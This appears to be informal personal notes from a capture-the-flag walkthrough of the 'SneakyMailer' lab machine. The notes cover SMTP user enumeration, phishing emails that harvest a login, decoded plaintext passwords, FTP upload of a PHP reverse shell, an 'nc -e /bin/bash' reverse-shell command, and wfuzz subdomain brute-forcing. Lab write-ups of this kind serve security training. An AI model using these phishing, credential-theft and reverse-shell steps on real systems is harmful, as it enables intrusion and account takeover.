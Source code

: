 add sneakycorp.htb to /etc/hosts with its ip address

verify emails exist using the port using:

```
nc 10.10.10.197 25
```
and then

```
vrfy laelgreer@sneakymailer.htb

```

try smtp enumeration using this: https://www.hackingarticles.in/4-ways-smtp-enumeration/ and fail
try sending mails using this syntax and try to get a reverse shell using ```nc -e /bin/bash yourip port (nc -vlp on the attacker side) ```

reverse shell doesnt work but putting nc on port 80 would make it a simple http request, and u can send it via browser and try sending it mails,
test it on ur local by oopening a browser and typing http://localhost


for sending emails use 
https://www.wikihow.com/Send-Email-Using-Telnet


tried the following and failed
```
nc 10.10.10.197 25
220 debian ESMTP Postfix (Debian/GNU)
MAIL FROM: laelgreer@sneakymailer.htb
250 2.1.0 Ok
RCPT TO: glorialittle@sneakymailer.htb
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
http://10.10.14.117

<CR><LF>.<CR><LF>

.
250 2.0.0 Ok: queued as E99702470F
quit
221 2.0.0 Bye
```


to see all available commnad use ehlo command at port 25
```

ehlo
501 Syntax: EHLO hostname
ehlo 10.10.10.197
250-debian
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING
```


https://linux.die.net/man/1/swaks
after that try using swaks and pray to science that all will be good.

using swaks like
```
swaks -to paulbyrd@sneakymailer.htb -server 10.10.10.197 -from glorialittle@sneakymailer.htb -body "http://10.10.14.117/"
```
didnt work the out put was crap


we finally created a custom shel script as in mailer.sh

run that with the cla as cewlmails.txt and  listen on port 80 with nc using ```nc -vlp 80```


once the script finishes u will get the following on the listener ``` firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt```

which can be edited as:
```
 firstName=Paul
&lastName=Byrd&
email=paulbyrd%40sneakymailer.htb
& password = %5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
& rpassword = %5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```
which on url decoding gives "
```
^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```


using this password i tried creating a mail client as sneapy.py but it didint work and i was told authentication was failed
i checked a few forums andit mentioned evolution hence i am trying that
 and it worked


found this in the sent items
"
llo administrator, I want to change this password for the developer account
 
Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
 
Please notify me when you do it"

looks like this is the password will try on ftb and ssh

it doesnt work on ssh but i can sign in to ftp
 via:
``` ftp 10.10.10.197
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
Name (10.10.10.197:kali): developer
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    8 0        1001         4096 Oct 02 11:01 dev
226 Directory send OK.
ftp> tp 10.10.10.197
?Invalid command
ftp> Connected to 10.10.10.197.
?Invalid command
ftp> 220 (vsFTPd 3.0.3)
?Invalid command
ftp> Name (10.10.10.197:kali): developer
?Invalid command
```


Then i downnloaded the reverse shell php from pentest monkey from https://github.com/pentestmonkey/php-reverse-shell

after logging in ftp u can put it to ftp using the following commands after logging in:
```
cd dev
put php-reverse-shell.php
```

lil note: https://github.com/danielmiessler/SecLists--> install this using ```apt install seclists```

couldnt find it in the subdirectories forum mentions subdomain, in seclists subdomains can be found at "/usr/share/seclists/Discovery/DNS/"  so check subdomains using the following command
```
wfuzz -c -f subdomainSneakyMailer.log -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt  -u 'http://10.10.10.197/' -H 'Host:FUZZ.sneakycorp.htb' -t 50 --hc 404,301

```
u will find the dev subdowmain check the logs in subdomainSneakyMailer.log 
